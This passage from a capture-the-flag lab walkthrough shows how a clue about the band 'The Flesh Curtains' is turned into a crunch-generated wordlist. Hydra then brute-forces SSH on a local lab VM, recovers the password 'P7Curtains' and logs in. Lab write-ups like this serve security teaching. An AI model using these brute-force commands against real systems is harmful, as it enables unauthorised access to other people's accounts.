 Another flag, summing up to **90pts**, together with a clue to the Rick's password.

Firsly we know that Rick played in band called "The Flesh Curtains", so we can extract each of the word into a different password combination. To make wordlists simpler and smaller, I decided to firstly create a list maching this pattern - A-Z:0-9:<one of the 3 words>.

{% highlight bash %}
root@kali:~# crunch 5 5 -t ,%The > rick.txt
Crunch will now generate the following amount of data: 1560 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 260
root@kali:~# crunch 7 7 -t ,%Flesh >> rick.txt
Crunch will now generate the following amount of data: 2080 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 260
root@kali:~# crunch 10 10 -t ,%Curtains >> rick.txt
Crunch will now generate the following amount of data: 2860 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 260
{% endhighlight %}

Now we can run **hydra** and crack the password.

{% highlight bash %}
root@kali:~# hydra -l RickSanchez -P rick.txt ssh://10.0.2.15 -s 22222
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-11-01 07:54:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 780 login tries (l:1/p:780), ~49 tries per task
[DATA] attacking ssh://10.0.2.15:22222/
[22222][ssh] host: 10.0.2.15   login: RickSanchez   password: P7Curtains
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-11-01 07:55:24
{% endhighlight %}

Got it! **P7Curtains** is the password, so we can now log in once again.

{% highlight bash %}
root@kali:~# ssh -p 22222 RickSanchez@10.0.2.15
RickSanchez@10.0.2.15's password:
Permission denied, please try again.
RickSanchez@10.0.2.15's password:
Last failed login: Wed Nov  1 22:57:05 AEDT 2017 from 10.0.2.4 on ssh:notty
There were 272 failed login attempts since the last successful login.
Last login: Thu Sep 21 09:45:24 2017
[RickSanchez@localhost ~]$
{% endhighlight %}
